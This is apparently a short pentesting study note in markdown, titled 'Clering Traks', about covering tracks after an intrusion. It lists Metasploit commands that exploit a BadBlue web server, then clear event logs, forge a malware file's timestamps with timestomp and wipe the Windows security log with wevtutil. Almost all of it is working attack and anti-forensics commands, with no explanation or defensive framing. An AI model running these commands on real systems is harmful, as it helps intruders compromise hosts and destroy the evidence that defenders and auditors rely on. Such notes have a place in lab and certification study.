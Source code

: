 # Clering Traks

```bash
msfconsole
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.27.188
run
clearev
timestomp help
timestomp malwarevnc –z “06/25/2015 09:25:03”

Eliminar logs 
C:\Windows\System32> wevtutil 
C:\Windows\System32> wevtutil cl security
```

![Untitled](Clering%20Traks%209f4b137fc3a2411cab36a9b7895eed9a/Untitled.png)
